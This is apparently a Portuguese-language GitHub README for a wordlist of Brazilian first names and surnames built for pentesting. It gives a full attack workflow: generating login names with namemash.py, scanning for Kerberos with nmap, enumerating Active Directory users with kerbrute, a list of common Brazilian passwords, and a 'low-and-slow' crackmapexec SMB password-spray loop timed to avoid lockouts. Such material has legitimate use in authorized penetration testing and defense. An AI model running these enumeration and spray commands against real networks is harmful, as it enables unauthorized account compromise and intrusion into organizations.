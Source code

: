 # Wordlist de nomes brasileiros  
> Este projeto surgiu no meio de um pentest aonde eu tinha somente acesso ao protocolo kerberos e o smb e precisava adivinhar logins de rede para realizar uma ataque de passwordspray.  

## Arquivos    
#### first-name-pt-br.txt:  
Contém uma lista de primeiros nomes brasileiros como por exemplo ana, carlos, henrique, etc...  

#### second-name-pt-br.txt:  
Este contém uma lista de sobrenomes brasileiros como carvalho, silva, souza, etc...  

#### name_and_surname.txt:  
Este arquivo contém uma mesclagem de primeiro nome e sobrenome.  

#### wordlist_login_pt_br.txt:  
Uma wordlist criada com o script python ```namemash.py``` para utilizar como teste para adivinhar logins validos.  

#### namemash.py:  
Script python para gerar padrões de login de rede.  

## Gerando logins:  
```bash
Smaug@erebor:~$ wget https://gist.githubusercontent.com/Outs1d3r-Net/4d9d674ce2885e282409fc2253f5df6b/raw/74f3de7740acb197ecfa8340d07d3926a95e5d46/namemash.py
Smaug@erebor:~$ for s in $(cat second-name-pt-br.txt);do for p in $(cat first-name-pt-br.txt);do echo "$p $s" >> name.txt;done;done
Smaug@erebor:~$ cat name.txt| sort | uniq > name_and_surname.txt; rm name.txt
Smaug@erebor:~$ python3 namemash.py name_and_surname.txt >> wordlist_login_pt_br.txt
```  
## Descobrindo logins validos:  
```
Smaug@erebor:~$ nmap -p88 192.168.0.1/24 --open
Smaug@erebor:~$ git clone https://github.com/ropnop/kerbrute; cd kerbrute
Smaug@erebor:~$ go build .
Smaug@erebor:~$ ./kerbrute userenum -d AD_NAME.LOCAL wordlist_login_pt_br.txt
```
#### pass.txt:  
```
Mudar@123
P@ssw0rd
Pa55w.rd
Microsoft.123
Musc1234
Brasil@2020
Mudar123@
Busca123
Aval1234
Auto1234
Brasil@2019
Mudar123*
Bela@123
Senha123@
Mudar123
Email@123
Cambiar123@
Brasil123@
Mudar321@
q1w2e3R$
Brasil@1234
abcd=1234
Deus@123
Brasil@123
Brasil123
Cambiar@123
123qwe...
Mudar1234!
Jesus@123
Jesus@10
Senha231
Maria@123
Brasil@321
Password@2022
Brasil@1991
```  
## Ataque de LOW-AND-SLOW PasswordSpray:  
```bash
Smaug@erebor:~$ for p in $(cat pass.txt);do crackmapexec smb 192.168.0.10 -u valid_users.txt -p "$p" -d AD_NAME.LOCAL; sleep 400;done
```
  
:frog:  

